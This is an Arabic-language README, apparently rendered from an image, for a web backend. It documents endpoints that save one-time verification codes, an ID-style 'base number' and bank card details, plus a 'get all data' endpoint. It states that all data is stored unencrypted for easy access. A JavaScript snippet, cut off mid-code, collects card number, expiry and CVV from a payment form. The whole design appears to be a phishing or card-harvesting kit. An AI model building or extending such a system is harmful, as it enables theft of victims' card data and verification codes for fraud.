 ### 3. حفظ رمز التحقق
- **المسار**: `/api/save-verification`
- **الطريقة**: POST
- **البيانات المرسلة**: 
  ```json
  {
    "verification_code": "123456",
    "transaction_number": "TRX123456789",
    "verification_type": "first"
  }
  ```

### 4. حفظ الرقم الأساسي
- **المسار**: `/api/save-base-number`
- **الطريقة**: POST
- **البيانات المرسلة**: 
  ```json
  {
    "base_number": "784123456789",
    "accept_request": true,
    "share_info": true,
    "transaction_number": "TRX123456789"
  }
  ```

### 5. استرجاع جميع البيانات
- **المسار**: `/api/get-all-data`
- **الطريقة**: GET
- **البيانات المسترجعة**: جميع البيانات المخزنة في قاعدة البيانات

## طريقة الربط البرمجي

تم ربط صفحات الموقع بقاعدة البيانات من خلال الخطوات التالية:

1. **إنشاء رقم معاملة فريد**: عند بدء عملية الدفع أو الشحن، يتم إنشاء رقم معاملة فريد وتخزينه في جلسة المستخدم (sessionStorage).

2. **إرسال البيانات من كل صفحة**: تم تعديل كل صفحة لإرسال البيانات المدخلة إلى واجهة API المناسبة باستخدام تقنية Fetch API.

3. **تتبع المعاملة**: يتم استخدام رقم المعاملة الفريد لربط جميع البيانات المدخلة في مختلف الجداول.

4. **تخزين البيانات بدون تشفير**: جميع البيانات تُخزن كما هي بدون أي تشفير لسهولة الوصول إليها.

## مثال على كود الربط

فيما يلي مثال على كيفية إرسال بيانات البطاقة البنكية من صفحة البطاقة إلى قاعدة البيانات:

```javascript
// معالجة تقديم النموذج
document.getElementById('card-form').addEventListener('submit', function(e) {
    e.preventDefault();
    
    // جمع البيانات من النموذج
    const cardHolder = document.getElementById('card-holder').value;
    const cardNumber = document.getElementById('card-number').value.replace(/\s+/g, '');
    const expiryDate = document.getElementById('expiry-date').value;
    const cvv = document.getElementById('cvv').value;
    
    // استرجاع رقم المعاملة من الجلسة
    const txnNumber = sessionStorage.getItem('transactionNumber');
    
    // إرسال البيانات إلى قاعدة البيانات
    fetch('/api/save-card', {
        method: 'POST',
```
